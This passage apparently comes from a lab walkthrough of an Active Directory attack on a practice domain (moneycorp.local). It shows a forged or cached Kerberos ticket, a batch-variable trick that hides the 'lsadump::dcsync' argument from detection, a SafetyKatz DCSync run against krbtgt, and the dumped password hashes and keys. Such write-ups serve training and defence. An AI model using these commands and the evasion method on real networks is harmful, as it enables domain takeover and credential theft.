memPAKseCJnCiR4LakbZVxTBadf+2CqapeTio7D7Sl9J0PsbPJTSrbYKt8M4UGuSB+OlfRR5LlqRFc604vJQi83qZ0qdrnQT2wCldMgxMKdvHHnixPNrxUQHaag/DmI+PA5vlDgvLLljGKLiPAygZEN1xXNjoKcXFsw3oCvSWOopPS6FEmSaldmQKa0yJGc7xj8t/4IOt+dHhcGIhGjDz052ZVhV9YpVH3LBmS3q7r7/cBCHnxP4keJkaNujG+bPZoj8zu1wWED5MZ6JScQ1f6W1UiymQOSQPYohWcJRtS7GuFY3i5UQ1OzbUIzyZ0aS2TXmIwS/bTEQCz82d39apU7e2bbeMUJEiJNzyrgCK3SLf50ZKTFChcEtaAnvdawBw/XXQwEWuj8CcfVCg249NzXcCc7WlfCLXrnz5tjABS4gE0YH/QNC8rhnk1qz3W3LIy/aTJrCxVLmsfVZrOv3AnBQYWdCeSWUS7FTkBvphScmFJEpS4r2hmghT3hpmRe3/0aaTIWXbvqy4dIO45ibo3f1ZpSopwKo8xmgvHUOyCsGNEIUT9DrY3FbpkJU4PhEFxgF6OB8DCB7aADAgEAooHlBIHifYHfMIHcoIHZMIHWMIHToCswKaADAgESoSIEIL1+0dX7BYd3I7HC167NXtwXBfilsB/+8xSMnP0Rz0MxoREbD01PTkVZQ09SUC5MT0NBTKIWMBSgAwIBAaENMAsbCU1DT1JQLURDJKMHAwUAYKEAAKURGA8yMDI0MDYxMDEzMzg1NVqmERgPMjAyNDA2MTAyMzM4NTVapxEYDzIwMjQwNjE3MDQwNjQwWqgRGw9NT05FWUNPUlAuTE9DQUypJDAioAMCAQKhGzAZGwZrcmJ0Z3QbD01PTkVZQ09SUC5MT0NBTA==
We can run klist command to confirm the Cached Ticket as MCORP-DC$.
klist

Now, we can run DCSync from this process.
Encoding our word with ArgSplit.bat again.
lsadump::dcsync
set "z=c"
set "y=n"
set "x=y"
set "w=s"
set "v=c"
set "u=d"
set "t=:"
set "s=:"
set "r=p"
set "q=m"
set "p=u"
set "o=d"
set "n=a"
set "m=s"
set "l=l"
set "Pwn=%l%%m%%n%%o%%p%%q%%r%%s%%t%%u%%v%%w%%x%%y%%z%"Executing SafetyKatz for DCSync.
C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "%Pwn% /user:mcorp\krbtgt /domain:moneycorp.local" "exit”
mimikatz(commandline) # lsadump::dcsync /user:mcorp\krbtgt /domain:moneycorp.local
[DC] 'moneycorp.local' will be the domain
[DC] 'mcorp-dc.moneycorp.local' will be the DC server
[DC] 'mcorp\krbtgt' will be the user account
[rpc] Service : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
Object RDN : krbtgt
** SAM ACCOUNT **
SAM Username : krbtgt
Account Type : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration :
Password last change : 11/11/2022 10:46:24 PM
Object Security ID : S-1-5-21-335606122-960912869-3279953914-502
Object Relative ID : 502
Credentials:
Hash NTLM: a0981492d5dfab1ae0b97b51ea895ddf
ntlm- 0: a0981492d5dfab1ae0b97b51ea895ddf
lm - 0: 87836055143ad5a507de2aaeb9000361
Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
Random Value : 7c7a5135513110d108390ee6c322423f
* Primary:Kerberos-Newer-Keys *
Default Salt : MONEYCORP.LOCALkrbtgt
Default Iterations : 4096
Credentials
aes256_hmac (4096) : 90ec02cc0396de7e08c7d5a163c21fd59fcb9f8163254f9775fc2604b9aedb5e
aes128_hmac (4096) : 801bb69b81ef9283f280b97383288442
des_cbc_md5 (4096) : c20dc80d51f7abd9
* Primary:Kerberos *
Default Salt : MONEYCORP.LOCALkrbtgt
Credentials
des_cbc_md5 : c20dc80d51f7abd9
* Packages *
NTLM-Strong-NTOWFWe were able to escalate from Domain Admin to Enterprise Admin, moving from Child Domain to Parent Domain.